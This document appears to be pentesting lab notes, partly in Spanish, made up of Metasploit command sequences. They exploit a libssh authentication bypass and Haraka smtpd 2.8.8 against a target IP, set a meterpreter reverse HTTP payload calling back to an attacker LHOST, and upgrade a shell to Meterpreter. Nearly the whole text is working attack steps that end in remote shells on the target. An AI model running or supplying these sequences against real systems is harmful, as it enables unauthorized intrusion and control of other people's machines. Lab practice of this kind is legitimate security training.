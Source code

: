 ## SSH

```bash
$ msfconsole
msf6> workspace -a ssh
msf6> setg <IP-TARGET>
msf6> db_nmap -sS -sCV -p- --open -O -Pn -n <IP-TARGET> -vvv
msf6> search libssh_auth_bypass
msf6> use auxiliary/scanner/ssh/libssh_auth_bypass
msf6> set SPAWN_PTY true
msf6> run
msf6> sessions 1
```

## SMTP

Haraka smtpd 2.8.8

```bash
$ msfconsole
msf6> workspace -a haraka
msf6> setg <IP-TARGET>
msf6> db_nmap -sS -sCV -p- --open -O -Pn -n <IP-TARGET> -vvv
msf6> hosts
msf6> services
msf6> search type:exploit name:Haraka
msf6> use exploit/linux/smtp/haraka
msf6> options
msf6> info
msf6> services
msf6> set SRVPORT 9898
msf6> set email_to root@attackdefense.test
msf6> set payload linux/x64/4/meterpreter_reverse_http
msf6> set payload linux/x64/meterpreter_reverse_http
msf6> options
msf6> ip a
msf6> set LHOST 192.76.184.2
msf6> options
msf6> run
```

---

## Post Explotación - Meterpreter

### Actualizar una shell normal a una shell de Meterpreter

```bash
msf6> session -u <session-id>
```

---
